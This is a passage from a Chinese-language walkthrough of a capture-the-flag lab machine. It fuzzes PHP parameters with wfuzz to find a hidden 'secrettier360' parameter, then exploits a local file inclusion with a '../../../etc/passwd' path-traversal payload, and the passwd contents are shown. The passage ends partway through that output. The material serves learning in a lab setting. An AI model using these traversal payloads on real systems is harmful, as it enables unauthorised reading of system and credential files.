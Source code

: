     可能file的参数也需要我们进行`fuzz`，其实这事`burp`也可以做
    
    但是之前的`secret.txt`还有一句 : //see the `location.txt` and you will get your next move//
    
    所以我们访问 ：`http://192.168.75.137/index.php?file=location.txt` 
    
    果然存在有信息
    
    ```php
    Now dig some more for next one
    use 'secrettier360' parameter on some other php page for more fun. 
    ```
    
    让我们使用`secrettier360` 参数去别的`php`页面`fuzz` ，大概是
    
    别的`php`页面除了`index.php`那就是`image.php` 
    
6. 对`image.php` 进行`fuzz`
    
    ```php
    wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 197 http://192.168.75.137/image.php?secrettier360=FUZZ
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://192.168.75.137/image.php?secrettier360=FUZZ
    Total requests: 951
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                       
    =====================================================================
    
    000000257:   200        13 L     43 W       328 Ch      "dev"                         
    
    Total time: 1.031432
    Processed Requests: 951
    Filtered Requests: 950
    Requests/sec.: 922.0189
    ```
    
    得出参数`dev` ，尝试访问：`http://192.168.75.137/image.php?secrettier360=dev`
    
    ```php
    finaly you got the right parameter
    
    hello, now you are at level 0 stage. In real life pentesting we should use our tools to dig on a web very hard. Happy hacking. 
    ```
    
    WTF？这不是之前的`/dev`吗，但是发现你只要在`secrettier360` 加上文件名，那不就是文件包含了吗?我这里大发奇想使用`php伪协议`尝试，但是发现使用不了，应该是禁用了
    
7. 利用文件包含漏洞
    
    尝试读取`/etc/passwd`
    
    ```php
    http://192.168.75.137/image.php?secrettier360=../../../etc/passwd
    //
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
    bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin 
    sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 